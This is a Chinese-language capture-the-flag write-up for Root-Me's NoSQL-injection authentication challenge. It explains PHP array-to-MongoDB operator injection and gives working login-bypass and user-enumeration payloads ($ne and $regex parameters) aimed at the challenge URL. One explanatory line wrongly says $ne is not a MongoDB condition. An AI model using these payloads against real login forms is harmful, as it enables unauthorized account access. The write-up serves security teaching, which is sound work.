

Root-Me [NoSQL injection - authentication](https://www.root-me.org/en/Challenges/Web-Server/NoSQL-injection-authentication)
===

簡單的登入頁面。

## 解題關鍵
1. NoSQL
2. Regex

## 提示訊息
```
Find the username of the hidden user.
```

## 解題方法
首先，我一直以為 `NoSQL` 是一個很安全的東西，直到碰到了這個題目，還是先瀏覽網友們提供的[文件](http://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20NoSQL,%20No%20injection%20-%20Ron,%20Shulman-Peleg,%20Bronshtein.pdf)，這是一篇論文，專門在談論 `NoSQL Injection` 的問題。  

簡單的說是透過 PHP 的機制來達成不安全的 `NoSQL Injection`，可以看以下的例子。  

```
?username=tolkien
&password=hobbit
```

若將這的資料送到伺服端，而在 PHP 上所撰寫的 `NoSQL` 查詢程式碼如下。  

```PHP
db->logins->find(array("username"=>$_POST["username"],
"password"=>$_POST["password"]));
```

實際上 `NoSQL` 執行的查詢如下  

```PHP
db.logins.find({ username: 'tolkien', password: 'hobbit' })
```

若是輸入陣列會發生什麼事情?

```
?username[$ne]=1
&password[$ne]=1
```

PHP 的 Array 會變成下面這樣，`username`、`password` 變成陣列。

```PHP
array(
   "username" => array("$ne" => 1)
  ,"password" => array("$ne" => 1))
;
```

接著查看 `NoSQL` 執行的查詢  

```PHP
db.logins.find({ username: { $ne: 1 }, password: { $ne: 1 } })
```

由於 `$ne` 不是 `MongoDB` 的條件，同時 `username`、`password` 都不等於 1，相當於查詢條件，秀出 `logins` 這個 DB 中，所有不包含 `username`、`password` 的資料。  

到這邊就忍不住送出 `Payload` 嘗試解題，`Payload` 如下。  

```
http://challenge01.root-me.org/web-serveur/ch38/
?login[$ne]=1
&pass[$ne]=1
```

接著得到回應: `You are connected as : admin`，顯然有一個使用者名稱叫做 `admin`，那剛把 `login[$ne]=1` 變更為 `login[$ne]=admin` 時，得到了 `You are connected as : test`，嘗試改為 `test` 又變成輸出 `admin`，所以該題應該是要想辦法取得非 `admin` 與 `test` 的。  

由於在[論文](http://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20NoSQL,%20No%20injection%20-%20Ron,%20Shulman-Peleg,%20Bronshtein.pdf)中，已經說明了 `$ne` 的意思，現在想查看有沒有其他可以用的運算元，簡單查了 MongoDB 的[文件](https://docs.mongodb.com/manual/reference/operator/query/regex/#op._S_regex)得到 `$regex` 的用法，透過政則表達式的方法，來排除掉 `admin`、`test` 的選項。  

```
http://challenge01.root-me.org/web-serveur/ch38/
?login[$regex]=^(?!admin|test)
&pass[$ne]=1
```

這部分有些疑惑，若是下 `(?!admin|test)` 並不會有任何動作，輸出還是維持 `admin`，對於對政則表達不太熟悉的關係，嘗試多次後，發現使用 `^(?!admin|test)` 才能真正排除兩個選項，也解決該題。  

  

然後有點欠揍，送出 Flag 一直出錯，原來是不包含 `Flag{}`...。

## Reference
http://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20NoSQL,%20No%20injection%20-%20Ron,%20Shulman-Peleg,%20Bronshtein.pdf  
https://docs.mongodb.com/manual/reference/operator/query/ 
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection

## 授權聲明
[](https://mks.tw/)
[](https://www.gnu.org/licenses/gpl-3.0)